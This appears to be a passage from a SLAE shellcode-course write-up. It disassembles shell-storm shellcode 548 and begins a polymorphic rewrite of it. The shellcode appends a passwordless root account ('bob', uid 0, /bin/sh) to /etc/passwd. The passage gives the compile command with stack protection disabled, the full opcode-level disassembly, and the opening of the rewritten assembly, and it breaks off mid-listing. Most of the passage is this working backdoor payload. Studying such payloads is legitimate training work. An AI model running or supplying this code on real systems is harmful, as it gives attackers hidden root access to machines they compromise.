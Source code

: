 First, we only have thoses opcodes and not mnémonic, so we need to generate them all.

We compile the program and extract them with objdump. The goal si to understand what the shellcode do.

 `gcc fno-stack-protector -z execstack test_shellcode.c -o test_shellcode`

`objdump -D ./test_shellcode`

```c
804a040 <code>:
804a040:	31 c0                	xor    eax,eax
804a042:	31 db                	xor    ebx,ebx
804a044:	31 c9                	xor    ecx,ecx
804a046:	53                   	push   ebx
804a047:	68 73 73 77 64       	push   0x64777373
804a04c:	68 63 2f 70 61       	push   0x61702f63
804a051:	68 2f 2f 65 74       	push   0x74652f2f
804a056:	89 e3                	mov    ebx,esp
804a058:	66 b9 01 04          	mov    cx,0x401
804a05c:	b0 05                	mov    al,0x5
804a05e:	cd 80                	int    0x80
804a060:	89 c3                	mov    ebx,eax
804a062:	31 c0                	xor    eax,eax
804a064:	31 d2                	xor    edx,edx
804a066:	68 6e 2f 73 68       	push   0x68732f6e
804a06b:	68 2f 2f 62 69       	push   0x69622f2f
804a070:	68 3a 3a 2f 3a       	push   0x3a2f3a3a
804a075:	68 3a 30 3a 30       	push   0x303a303a
804a07a:	68 62 6f 62 3a       	push   0x3a626f62
804a07f:	89 e1                	mov    ecx,esp
804a081:	b2 14                	mov    dl,0x14
804a083:	b0 04                	mov    al,0x4
804a085:	cd 80                	int    0x80
804a087:	31 c0                	xor    eax,eax
804a089:	b0 06                	mov    al,0x6
804a08b:	cd 80                	int    0x80
804a08d:	31 c0                	xor    eax,eax
804a08f:	b0 01                	mov    al,0x1
804a091:	cd 80                	int    0x80
```

We proceed on the modification of the code.

```c
 ; Shell-storm.org/shellcode/files/shellcode-548.php
 ; adds a root user no-passwd to /etc/passwd 83 bytes
 ; Polymorphic version 96
 ; Author : Alain Menelet
 ; StudentID:  SLAE-3763

 global _start

 section .text
	
 _start:
	
	xor ebx, ebx
	mul ebx
	mov ecx, ebx
	push ebx
	push 0x64777373		; cwss
	push 0x61702f63		; ap/c
	push 0x74652f2f		; te//
	mov ebx, esp
	mov ch, 0x4
	mov cl, 0x1
```